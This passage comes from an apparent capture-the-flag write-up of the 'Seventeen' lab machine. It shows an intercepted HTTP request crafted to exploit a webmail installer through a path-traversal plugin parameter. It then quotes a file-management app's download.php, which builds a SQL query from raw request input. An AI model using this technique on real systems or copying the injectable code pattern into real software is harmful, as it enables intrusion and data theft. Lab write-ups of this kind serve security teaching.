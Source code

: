 This form has a ton of fields. I’ll submit this through Burp and intercept the request. The POST request matches the POC. I’ll modify the request to look like the POC. I can hack out a bunch of the stuff that I’m not trying to change, and it’ll look like this:

```

POST /mastermailer/installer/index.php HTTP/1.1
Host: mastermailer.seventeen.htb:8000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 798
Origin: http://mastermailer.seventeen.htb:8000
Connection: close
Referer: http://mastermailer.seventeen.htb:8000/mastermailer/installer/index.php?_step=2
Cookie: PHPSESSID=2f367f87a86cd958ab11dcad63499bf2
Upgrade-Insecure-Requests: 1

_step=2&_product_name=Seventeen+Webmail&submit=UPDATE+CONFIG&_plugins_qwerty=[path here]

```

Unfortunately, finding a reasonable path is difficult. Looking at the POC, it creates a `/dev/shm/zipdownload` and a file `/dev/shm/zipdownload.php`. The page then tries to load `"/var/www/html/roundcube/plugins/../../../../../../dev/shm/zipdownload/../../../../../../dev/shm/zipdownload.php`. That only works because both the folder `zipdownload` and the file `zipdownload.php` exist. I need a place on Seventeen that allows me to match that structure.

#### Find Upload Path

I’ve already been working on the theory that the SFMS is hosted out of `/var/www/oldmanagement`. Hovering over the download link for the file I uploaded earlier, it points to `download.php?store_id=35`.

![](https://0xdfimages.gitlab.io/img/image-20220504145729.png)

I’ll download the [SFMS source](https://www.sourcecodester.com/sites/default/files/download/razormist/school-file-management-system.zip) and take a look at how it saves and downloads files. After unzipping the download, the base files are:

```

oxdf@hacky$ ls
admin  download.php  index.php  login_query.php  remove_file.php  script.php           student_update.php  validator.php
db     files         login.php  logout.php       save_file.php    student_profile.php  update_query.php

```

`download.php` is very simple:

```

<?php
    require_once 'admin/conn.php';
    if(ISSET($_REQUEST['store_id'])){
        $store_id = $_REQUEST['store_id'];

        $query = mysqli_query($conn, "SELECT * FROM `storage` WHERE `store_id` = '$store_id'") or die(mysqli_error());
        $fetch  = mysqli_fetch_array($query);
        $filename = $fetch['filename'];
        $stud_no = $fetch['stud_no'];
        header("Content-Disposition: attachment; filename=".$filename);
        header("Content-Type: application/octet-stream;");
```
